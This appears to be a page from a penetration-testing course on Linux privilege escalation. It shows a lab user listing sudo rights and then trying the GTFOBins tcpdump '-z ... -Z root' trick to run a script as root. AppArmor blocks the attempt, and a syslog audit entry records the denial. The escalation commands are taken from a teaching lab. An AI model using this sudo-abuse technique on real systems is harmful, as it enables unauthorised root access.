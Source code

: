 ```
joe@debian-privesc:~$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

> Listing 48 - Inspecting current user's sudo permissions

From the output in listing 48, we notice that only crontab jobs, tcpdump, and apt-get utilities are listed as allowing *sudo* commands.

If the **/etc/sudoers** configurations are too permissive, a user could abuse the short-lived administrative right to obtain permanent root access.

Since the first of the three permitted commands does not allow us to edit any crontab, it's unlikely that we could use this to find any escalation route. The second command looks more promising, so let's browse [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo) for suggestions on how to abuse it.

Running the hinted commands, however, reveals an unexpected outcome:

```
joe@debian-privesc:~$ COMMAND='id'
joe@debian-privesc:~$ TF=$(mktemp)
joe@debian-privesc:~$ echo "$COMMAND" > $TF
joe@debian-privesc:~$ chmod +x $TF
joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe:
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...
compress_savefile: execlp(/tmp/tmp.c5hrJ5UrsF, /dev/null) failed: Permission denied
```

> Listing 49 - Attempting to abuse tcpdump sudo permissions

Surprisingly, once we've executed the suggested command-set, we are prompted with a "permission denied" error message.

To further investigate the culprit, we can inspect the **syslog** file for any occurrence of the *tcpdump* keyword.

```
joe@debian-privesc:~$ cat /var/log/syslog | grep tcpdump
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```

> Listing 50 - Inspecting the syslog file for 'tcpdump' related events

The output in Listing 50 shows that the [*audit*](https://man7.org/linux/man-pages/man8/auditd.8.html) daemon has logged our privilege escalation attempt. Closer inspection reveals that [*AppArmor*](https://apparmor.net/) was triggered and blocked us.
